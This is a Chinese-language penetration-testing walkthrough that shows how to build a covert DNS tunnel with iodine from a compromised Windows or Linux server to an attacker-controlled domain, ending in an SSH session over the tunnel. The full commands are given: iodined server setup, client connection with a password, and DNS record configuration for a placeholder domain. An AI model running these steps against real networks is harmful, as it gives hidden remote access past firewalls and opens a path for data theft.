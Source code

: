 
### 利用DNS协议进行隧道穿透 
DNS隧道（DNS Tunneling）也是隐蔽隧道的一种方式，通过将其他协议封装在DNS协议中传输建立通信。大部分防火墙和入侵检测设备很少会过滤DNS流量，这就给DNS隧道提供了条件，可以利用它实现诸如远程控制、文件传输的操作。使用dns搭建隧道的工具也有很多，比如dnscat2、DNS2tcp、iodine等。由于iodine工具使用比较稳定，这里使用iodine进行演示，它可以通过一台dns服务器制作一个Ipv4通道，iodine分为客户端和服务端，Iodine不仅有强制密码措施，还支持多种DNS记录类型，而且支持16个并发连接，因此很多时候Iodine是DNS隧道的第一选择。<br />假设在内网渗透中探测目标服务器，并且我们已经获取到目标服务器主机控制权限，探测DNS协议开放，可以尝试利用DNS隧道工具后续搭建隧道，这里以Iodine工具为案例进行演示，本次实验拓扑如图1-1所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492056470-4076b492-2286-47b0-ab48-a57a6b5f8282.png#averageHue=%23e9e3e1&id=E2G6S&originHeight=286&originWidth=583&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-1 DNS协议实验拓扑图 
#### 1.环境配置
1）使用Iodine工具搭建隧道的前提是有一台服务器和域名，首先进行配置域名解析，为攻击者服务器域名配置两条解析，域名解析配置如图1-2所示，其中A记录类型是告诉dns服务器，域名ns1.xxx.net.cn是由攻击者服务器的公网IP解析，而NS记录类型是告诉dns服务器,域名dc.xxx.net.cn是由dns.ns1.xxx.net.cn解析。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492056867-9d37be3d-1679-48a4-87f2-39d4ff89a4fd.png#averageHue=%23f8f8f8&id=ilw7D&originHeight=235&originWidth=1324&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-2域名配置<br />2）如果解析不成功会导致后续DNS隧道无法进行，接下来，我们使用ping命令检测当前环境配置，这里发现可以ping通ns1.xxx.net.cn，说明A记录配置正确，如图1-3所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492057095-1988500e-a4df-4b06-9854-12ee8d5fc80a.png#averageHue=%23191512&id=NYYL7&originHeight=232&originWidth=593&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-3  ping命令测试配置<br />3）在攻击者服务器执行tcpdump -n -i eth0 udp dst port 53命令监听本地UDP的53端口。在任意一台主机上执行nslookup dc.xxx.net.cn命令访问域名，如果攻击者服务器监听的端口有查询信息，证明NS记录设置成功，如图1-4所示。<br />![](https://cdn.nlark.com/yuque/0/2023/jpeg/1137595/1699492057415-0656bd2a-9e43-41d3-98a8-cb1774e1c478.jpeg#averageHue=%2330322a&id=KaQ3K&originHeight=401&originWidth=1227&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-4域名解析配置测试<br />4）在攻击者服务器进行部署iodine工具，执行yum -y install iodine命令来进行安装，安装完毕后通过执行iodine -v查看版本，如图1-5所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492057751-1d9a5985-4a46-44bd-bd15-c676563352a1.png#averageHue=%232c2a28&id=wt1A0&originHeight=99&originWidth=503&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-5 安装环境<br />5）下面启动iodine服务端，执行iodined -f -c -P root@Admin123. 192.168.10.1 dc.xxxx.net.cn -DD命令，配置生成虚拟网段，其中-f参数是在前台运行，-c参数禁止检查所有传入请求的客户端IP地址，-P参数指客户端和服务端之间用于验证身份的密码，可以自定义，-D参数指定调试级别，-DD指第二级，"D"的数量随级别增加，这里的IP 192.168.10.1为自定义的虚拟网段，下面实验会通过这个虚拟网段连接服务端，注意网段不要与已存在网段相同，否则会发生冲突连接失败。执行成功则如图1-6所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492057987-262237de-a616-46a0-97b3-9d14e0062e1d.png#averageHue=%23252322&id=kmqve&originHeight=163&originWidth=999&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-6启动iodine服务端<br />6）服务端配置成功后会多出一个我们自定义的网卡段，它用来与客户端进行通讯。我们新建一个会话，使用ifconfig命令查看服务器，会发现多出一个虚拟网卡地址，地址为刚设置的地址，如图1-7所示，证明服务端配置成功。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492058235-488ddd6a-10fa-45ad-943a-48d86f026fe5.png#averageHue=%23292624&id=aONEa&originHeight=538&originWidth=910&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-7 网卡配置信息<br />7）我们也可以通过iodine检查页面[https://code.kryo.se/iodine/check-it/](https://code.kryo.se/iodine/check-it/)来检查配置是否正确，输入dc.xxx.net.cn检测，若结果如图1-8所示，则表示设置成功。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492058482-d2510b7b-5285-465e-9242-cbe258006695.png#averageHue=%23e2e2e1&id=cLGZj&originHeight=642&originWidth=1117&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-8 通过iodine检查页面验证配置成功
#### 2.Windows系统下进行DNS隧道穿透利用
1）下面我们来进行DNS隧道里，假设目标服务器是windows系统，可以使用iodine.exe工具，使用前需要TAP适配器，下载地址为[https://swupdate.openvpn.org/community/releases](https://swupdate.openvpn.org/community/releases)<br />/openvpn-install-2.4.8-I602-Win10.exe，下载后直接在目标服务器安装，如图1-9所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492058809-5950a29d-da51-4c3b-8041-f3fd1f9b305b.png#averageHue=%23f2f0ed&id=SyjDn&originHeight=487&originWidth=618&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-9 安装TAP适配器<br />2）在目标服务器执行iodine.exe -f -r -P root@Admin123. dc.xxx.net.cn命令，如果出现提示Connection setup complete, transmitting data，就表示DNS隧道已经建立，如图1-10所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492059165-47b3bd04-f00b-47f4-aa45-fe606c45da62.png#averageHue=%23121212&id=twQhS&originHeight=642&originWidth=643&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-10客户端连接服务端<br />3）此时目标服务器会多出一条虚拟网卡，这个网卡就是我们执行后建立的通讯网卡，查看其IP为192.168.10.2，与上述DNS自定义网卡一致，证明搭建隧道成功，如图1-11所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492059421-a9f968ee-099f-4223-8587-b4d24a6788a0.png#averageHue=%23f9f8f7&id=a2T4C&originHeight=560&originWidth=1091&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-11 网卡IP信息
#### 3.Linux系统下进行DNS隧道穿透利用
假设目标服务器是Linux系统，我们执行操作同上述Windows操作一样，在目标服务器下载Iodine工具后，执行iodine -f -r -P root@Admin123. dc.xxx.net.cn命令，连接攻击者服务器，如图1-12所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492059684-2f49408c-2b77-43c6-b235-4cb19dcdd61d.png#averageHue=%23242934&id=Tg43W&originHeight=316&originWidth=553&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-12连接Linux服务器<br />此时DNS隧道已经搭建成功，执行ifconfig命令后，得知IP是192.168.10.2，我们可以尝试用攻击者服务器进行对客户端192.168.10.2进行ssh连接，连接成功如图1-13所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699492059895-62714d68-8dff-4a8d-b2a3-02697f380944.png#averageHue=%23252322&id=LcNRo&originHeight=278&originWidth=897&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />图1-3服务端进行对客户端ssh连接

